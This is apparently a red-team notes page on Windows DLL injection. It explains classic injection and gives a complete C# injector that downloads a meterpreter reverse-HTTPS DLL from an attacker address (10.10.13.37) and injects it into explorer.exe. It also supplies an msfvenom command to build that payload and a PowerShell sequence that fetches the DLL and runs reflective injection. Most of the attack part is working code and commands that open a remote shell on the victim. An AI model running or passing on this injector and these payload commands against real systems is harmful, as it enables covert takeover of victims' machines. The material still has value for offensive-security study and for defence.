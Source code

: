 ```yaml
---
description: Inject DLLs into remote process's virtual address space
---
```


# DLL Injectors




## Classic DLL Injection



### C\# Executable

A simple C# DLL injector to explain the basics:

1. Allocate space for the malicious DLL in remote process's virtual address space.
2. Write the DLL contents into the allocated space.
3. Locate the address of the [LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function in kernel32.dll with `GetModuleHandle` and `GetProcAddress`. Most Windows native DLLs are allocated at the same base address, so the obtained address of `LoadLibraryA` will be the same for the remote process.
4. Invoke `LoadLibraryA` function on the behalf of the remote thread supplying base `LoadLibraryA` address as the *4th* argument of `CreateRemoteThread` and the name of the DLL to be loaded as the *5th* argument.

All this is needed because `LoadLibrary` functions cannot be invoked natively on a remote process.

{% code title="DLLInjector.cs" %}
```csharp
using System;
using System.Net;
using System.Linq;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            // Download the malicious DLL
            String dirName = Environment.GetFolderPath(Environment.SpecialFolder.MyMusic);
            String dllName = dirName + "\\met.dll";
            WebClient wc = new WebClient();
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
            wc.DownloadFile("http://10.10.13.37/met.dll", dllName);

            // Get remote process handle
            Process[] pList = Process.GetProcessesByName("explorer");
            int processId = pList.First().Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

            // Allocate space for the DLL name in remote process's virtual address space and write it
            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            // Locate base address of the LoadLibraryA function in kernel32.dll (this address will be the same for the remote process)
            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            // Invoke LoadLibraryA function in the remote process supplying starting address of the malicious DLL in its (process's) address space
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}

{% hint style="warning" %}
According to [this](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c) template that MSF is using to generate a DLL, there's another injection technique (Thread Execution Hijacking) [in the DLL code itself](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c#L115) which is invoked upon `DLL_PROCESS_ATTACH` event. That causes the DLL not to be loaded in the target process memory, but it rather forces new shellcode to be executed by `rundll32.exe` and the malicios process (meterpreter shell, etc.) gets the PID of `rundll32.exe`. It may also result in hanging the parent's process (`explorer.exe` in terms of this example) and crashing it when the shell dies.
{% endhint %}




## Reflective DLL Injection

* [https://github.com/stephenfewer/ReflectiveDLLInjection#overview](https://github.com/stephenfewer/ReflectiveDLLInjection#overview)
* [https://github.com/dismantl/ImprovedReflectiveDLLInjection](https://github.com/dismantl/ImprovedReflectiveDLLInjection)
* [https://github.com/Moriarty2016/NimRDI](https://github.com/Moriarty2016/NimRDI)



### Invoke-ReflectivePEInjection

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
PS > $bytes = (New-Object Net.WebClient).DownloadData("http://10.10.13.37/met.dll")
PS > Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId (Get-Process explorer).Id
```
